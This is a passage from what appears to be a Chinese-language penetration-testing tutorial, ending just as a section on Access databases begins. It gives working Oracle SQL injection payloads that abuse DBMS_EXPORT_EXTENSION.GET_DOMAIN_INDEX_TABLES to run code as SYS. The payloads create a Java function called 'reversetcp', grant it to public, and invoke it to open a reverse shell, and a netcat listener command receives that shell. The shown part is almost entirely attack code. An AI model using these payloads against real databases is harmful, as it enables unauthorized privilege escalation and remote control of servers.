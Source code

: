 **创建函数**

```
select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS_OUTPUT" .PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''create or replace function reversetcp RETURN VARCHAR2 as language java name ''''''''shell.run() return String''''''''; '''';END;'';END;--','SYS',0,'1',0) from dual
```

**赋予函数执行权限**

```
select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS_OUTPUT" .PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''grant all on reversetcp to public'''';END;'';END;--','SYS',0,'1',0) from dual
```

**反弹shell**

```
select sys.reversetcp from dual
```

**shell命令行输入：**

```
nc -vv -l p 8080
```

<img src="assets/1ef04f6da3819ca4714700e3220e7e01.png" alt="1ef04f6da3819ca4714700e3220e7e01" style="zoom:50%;" />



#### 3、Access

##### 1)Access数据库介绍
